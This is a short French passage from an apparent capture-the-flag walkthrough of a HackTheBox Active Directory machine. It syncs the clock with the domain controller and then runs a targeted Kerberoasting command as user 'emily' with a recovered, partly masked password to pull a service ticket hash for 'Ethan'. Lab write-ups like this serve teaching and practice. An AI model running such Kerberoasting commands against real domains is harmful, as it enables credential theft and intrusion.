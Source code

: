 ![L'homme le plus aigri de France](../assets/memes/Aigri.png)
:

```bash
sudo ntpdate -u 10.10.11.42
```

---

## 🔥 Kerberoast Ethan

Je balance un targeted kerberoast avec le user emily et son mot de passe (`tekieromucho` ou ce qui en sort du fichier pwsafe décrypté) :

```bash
python3 targetedKerberoast.py -d administrator.htb --dc-ip 10.10.11.42 -u emily -p 'UXLCI5iETUsIBoFVTj8y*****'
```
